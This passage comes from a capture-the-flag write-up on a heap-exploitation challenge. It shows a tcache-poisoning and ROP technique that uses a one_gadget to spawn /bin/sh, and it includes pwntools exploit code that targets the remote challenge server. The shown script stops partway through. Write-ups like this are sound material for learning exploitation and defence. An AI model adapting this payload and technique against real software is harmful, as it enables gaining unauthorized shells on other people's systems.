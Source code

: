 

### Profit (shell)

#### `ROP` our way to heaven (`ROPing` the process and running a `ONE_GADGET`)



To finish this long journey, the player can simply use the `RSP` *(`stack`)* `leak` to hijack the process flow utilizing classic `ROP`-techniques.
This ability can be combined with a `one_gadget`, making sure the `constraints` one the `one_gadget` are fulfilled:

```python
# Prepare next tcache entry to be the address of upcoming RIP
edit(2, p64(sp-32))

# Get shellz with simple ROP and a one_gadget
popr        = libc.address + 0x000000000002b9e3 # : pop r12 ; pop r13 ; ret

one_gadget  = libc.address + 0xd05ea            # 0xd05ea execve("/bin/sh", r12, r13)
                                                # constraints:
                                                #   [r12] == NULL || r12 == NULL
                                                #   [r13] == NULL || r13 == NULL
 
payload = b'A'*24    # Padding
payload += p64(popr) # gadget to pop contrains
payload += p64(0)*2  # Set r12 and r13 to 0
payload += p64(one_gadget)  # One gadget
```



Now all there is left to do, is trigger the `ROP`:

```python
# Trigger the one_gadget
p.sendline(b'1')                    # Call malloc() menu option
p.sendline(str(0x100-8).encode())   # Malloc t-cache pointer (RBP value)
p.sendline(payload)                 # Send payload and ROP the process
```



#### Full exploit script

```python
from pwn import *

elf = ELF("chal")
libc = elf.libc
#p = process(elf.path)
#gdb.attach(p)
p = remote("garbage.hack.fe-ctf.dk", 1337)

def menu():
    return p.recvuntil(b'> ')

def malloc(size, data):
    p.sendline(b'1')
    p.sendlineafter(b'out:\n', str(size).encode())
    p.sendafter(b'out:\n', data)
    menu()

def see(index):
    p.sendline(b'2')
    p.sendlineafter(b"at:\n", str(index).encode())
    res = p.recvuntil(b"1)").split(b"\nMallocs")[0]
    menu()
```